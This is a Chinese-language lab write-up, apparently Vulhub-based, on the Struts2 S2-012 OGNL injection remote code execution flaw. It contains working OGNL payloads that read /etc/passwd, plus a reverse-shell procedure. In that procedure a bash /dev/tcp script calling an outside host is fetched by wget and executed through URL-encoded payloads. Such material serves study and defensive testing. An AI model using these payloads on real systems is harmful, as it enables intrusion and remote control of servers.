


# Struts2 S2-012 远程代码执行漏洞

## 漏洞描述

如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 ${param_name} 作为重定向变量，例如：

```
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```

这里 UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。

漏洞详情:

- http://struts.apache.org/docs/s2-012.html

## 漏洞影响

影响版本: 2.1.0 - 2.3.13

## 环境搭建

Vulhub执行以下命令启动s2-012测试环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-vps-ip:8080/index.jsp`即可进入上传表单页面。

## 漏洞复现

可以直接祭出s2-001中的回显POC，因为这里是没有沙盒，也没有限制任何特殊字符。

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

发送请求，执行命令：



### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

```
%25%7B%23a%3D%28new+java.lang.ProcessBuilder%28new+java.lang.String%5B%5D%7B%22wget%22%2C+%22192.168.174.128%2Fshell.sh%22%7D%29%29.redirectErrorStream%28true%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew+java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew+java.io.BufferedReader%28%23c%29%2C%23e%3Dnew+char%5B50000%5D%2C%23d.read%28%23e%29%2C%23f%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29%2C%23f.getWriter%28%29.println%28new+java.lang.String%28%23e%29%29%2C%23f.getWriter%28%29.flush%28%29%2C%23f.getWriter%28%29.close%28%29%7D
```

执行shell.sh文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行shell.sh文件的Payload为：

```
%25%7B%23a%3D%28new+java.lang.ProcessBuilder%28new+java.lang.String%5B%5D%7B%22bash%22%2C+%22%2Fusr%2Flocal%2Ftomcat%2Fshell.sh%22%7D%29%29.redirectErrorStream%28true%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew+java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew+java.io.BufferedReader%28%23c%29%2C%23e%3Dnew+char%5B50000%5D%2C%23d.read%28%23e%29%2C%23f%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29%2C%23f.getWriter%28%29.println%28new+java.lang.String%28%23e%29%29%2C%23f.getWriter%28%29.flush%28%29%2C%23f.getWriter%28%29.close%28%29%7D
```

成功接收反弹shell：

